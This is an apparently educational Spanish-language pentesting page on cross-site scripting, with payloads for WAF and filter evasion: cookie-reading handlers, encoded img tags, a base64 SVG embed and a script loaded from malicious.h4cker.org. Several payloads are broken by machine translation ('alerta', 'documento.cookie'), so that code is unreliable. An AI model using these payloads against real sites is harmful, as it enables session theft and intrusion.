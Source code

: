 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS Injection

Encontrar las vulnerabilidades xss se logran mediante los siguientes tipos de ataques:

1. **Reflejado (Reflected XSS)**
2. **Persistente (Stored XSS)**
3. **Basado en DOM (DOM-based XSS)**

Normalmente encontrará vulnerabilidades XSS en la siguiente ubicaciones:

* **Campos de búsqueda que hacen eco de una cadena de búsqueda al usuario**
* **encabezados HTTP**
* **Campos de entrada que reflejan los datos del usuario**
* **Mensajes de error que devuelven texto proporcionado por el usuario**
* **Campos ocultos que pueden incluir datos ingresados ​​por el usuario.**
* **Aplicaciones que muestran datos proporcionados por el usuario**

Desde la barra de direcciones de un navegador:

```
  javascript:alert("Prueba Omar_s_XSS"); javascript:alerta(documento.cookie);
```

Un campo de entrada del usuario en un formulario web:

```
<script>alerta("Prueba XSS")</script>
```

### XSS Evasion Techniques

Se pueden utilizar numerosas técnicas para evadir las protecciones XSS y los productos de seguridad, como los firewalls de aplicaciones web (WAF).

Una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros XSS y soluciones de seguridad:

```
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

La etiqueta HTML **img** se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:

```
<img src="javascript:alert('xss');"> <img src=javascript:alert('xss')> <img src=javascript:alert("XSS")> <img src=javascript:alert ('xs')>
```

También es posible utilizar otras etiquetas HTML maliciosas, como se demuestra aquí:

```
  <a onmouseover="alert(document.cookie)">Este es un enlace malicioso</a> <a onmouseover=alert(document.cookie)>Este es un enlace malicioso</a>
```

Un atacante también puede utilizar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS, como se demuestra aquí:

```
  <img src=javascript& #x3Aalert('XSS' x29>
```

La codificación US ASCII puede eludir muchos filtros de contenido y también puede usarse como técnica de evasión, pero solo funciona si el sistema transmite en codificación US ASCII o si se configura manualmente. Esta técnica es útil contra WAF. El siguiente ejemplo demuestra el uso de la codificación ASCII de EE. UU. para evadir WAF:

```
¼script¾alerta(¢XSS¢)¼/script¾
```

El siguiente ejemplo muestra un ejemplo de una técnica de evasión que implica el uso de etiquetas de inserción HTML para incrustar un archivo de gráficos vectoriales escalables (SVG):

```
  <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm cvMjAwMC9zdmciIHhtbG5zOnhsa W5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3 hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU 9InRleHQvZWNtYXNjcmlwdC I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" tipo="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" %}

{% embed url="https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}
